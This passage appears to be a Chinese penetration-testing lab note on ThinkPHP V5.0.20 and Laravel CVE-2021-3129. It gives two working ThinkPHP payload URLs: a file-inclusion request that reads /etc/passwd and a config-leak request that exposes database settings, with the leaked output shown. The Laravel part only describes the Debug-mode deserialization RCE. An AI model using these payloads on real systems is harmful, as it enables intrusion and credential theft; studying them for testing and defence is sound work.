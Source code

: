 ### [ThinkPHP](http://www.thinkphp.cn "官方网站") V5.0.20

Thinkphp_tools工具

​![image](assets/image-20240920102826-ldfpg3p.png)​

目标存在tp5_file_include漏洞, payload:

```bash
 http://192.168.100.40:21939?s=index/\think\Lang/load&file=/etc/passwd
```

​![image](assets/image-20240920102906-drpbfxr.png)​

目标存在tp5_dbinfo_leak漏洞, payload:

```bash
http://192.168.100.40:21939?s=index/think\config/get&name=database.hostname
```

hostname: 127.0.0.1, hostport: , database: , username: , password: root

​![image](assets/image-20240920103034-5rpgce1.png)​

## Laravel CVE-2021-3129     拉日尔沃

Laravel是一套简洁、优雅的PHP Web开发框架(PHP Web Framework)

漏洞概述

编号：CVE-2021-3129

当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file\_get\_contents()和file\_put\_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

​![image](assets/image-20240920105017-nfsfzab.png)​
